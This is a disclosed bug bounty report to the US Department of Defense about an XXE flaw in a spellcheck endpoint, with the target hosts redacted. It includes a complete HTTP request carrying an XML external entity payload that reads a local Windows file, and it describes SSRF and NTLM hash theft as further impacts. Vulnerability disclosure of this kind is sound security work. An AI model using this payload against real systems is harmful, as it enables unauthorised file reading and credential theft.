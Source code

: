 # [HTA2] XXE on https://███ via SpellCheck Endpoint.

## Report Details
- **Report ID**: 715949
- **URL**: https://hackerone.com/reports/715949
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-10-16T22:11:38.263Z
- **Disclosed**: 2023-05-15T15:13:37.449Z

## Reporter
- **Username**: cdl
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
## Summary:
There is a full read XXE vulnerability on 

## Steps To Reproduce:
  1. Log into `https://██████/` with the credentials `██████`
  2. Get your cookies and make the following HTTP Request with them

```
POST /Kview/CustomCodeBehind/Base/Utilities/RapidSpellHelpFile.aspx HTTP/1.1
Host: ███████
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=UTF-8
Content-Length: 1238
Connection: close
Referer: https://██████████/Kview/CustomCodeBehind/Base/PersonalHomepage/PersonalHomepageCalendarAddEvent.aspx?EventAction=AddEvent&EventDate=10/16/2019%2012:00:01%20AM
Cookie: [COOKIES]

<?xml version="1.0"?>
<!DOCTYPE r [<!ENTITY a SYSTEM "file:///c:\Windows\System32\Drivers\etc\hosts">]>
<r><resp>xml</resp><textToCheck>&a;</textToCheck><IAW/><UserDictionaryFile/><DictFile>d:\Meridian\MWRA\MG\11.1\KView\CustomCodeBehind\Base/en-US/DICT-EN-US-USEnglish.dict</DictFile><SuggestionsMethod>HASHING_SUGGESTIONS</SuggestionsMethod><LanguageParser>ENGLISH</LanguageParser><SeparateHyphenWords>False</SeparateHyphenWords><V2Parser>True</V2Parser><SSLFriendlyPage>/KView/CustomCodeBehind/WebResource.axd?d=zqrwmEhOpCtb9wLAM9uWrOzT_jYv5Un0ehQNczyIJSp-b9XbsULhZuZahCBf8Qk8anUm2kaMbXSDgD8qtwoc7T6Vnc9cbWVmTwIkPCbvIqLzTEGbDgA2oGtmx8o1&amp;t=633221022140000000</SSLFriendlyPage><SuggestSplitWords>True</SuggestSplitWords><IncludeUserDictionaryInSuggestions>True</IncludeUserDictionaryInSuggestions><WarnDuplicates>True</WarnDuplicates><IgnoreWordsWithDigits>True</IgnoreWordsWithDigits><CheckCompoundWords>False</CheckCompoundWords><LookIntoHyphenatedText>True</LookIntoHyphenatedText><GuiLanguage>ENGLISH</GuiLanguage><IgnoreXML>False</IgnoreXML><IgnoreCapitalizedWords>False</IgnoreCapitalizedWords><ConsiderationRange>-1</ConsiderationRange><IgnoreURLsAndEmailAddresses>True</IgnoreURLsAndEmailAddresses><AllowMixedCase>False</AllowMixedCase></r>
```

You will see the contents of `c:\Windows\System32\Drivers\etc\hosts` in the response:

██████████


We can also make HTTP requests to external and internal applications and read the full responses. We can also like steal NTLM domain hashes.

████

## Supporting Material/References:

  * https://techblog.mediaservice.net/2018/02/from-xml-external-entity-to-ntlm-domain-hashes/

## Impact

Critical, an attacker can read local files, make HTTP requests to internal applications and read the responses, steal NTLM hashes, and also completely deny service to the application.

Best,
Corben Leo (@cdl)

## Attachments
No attachments

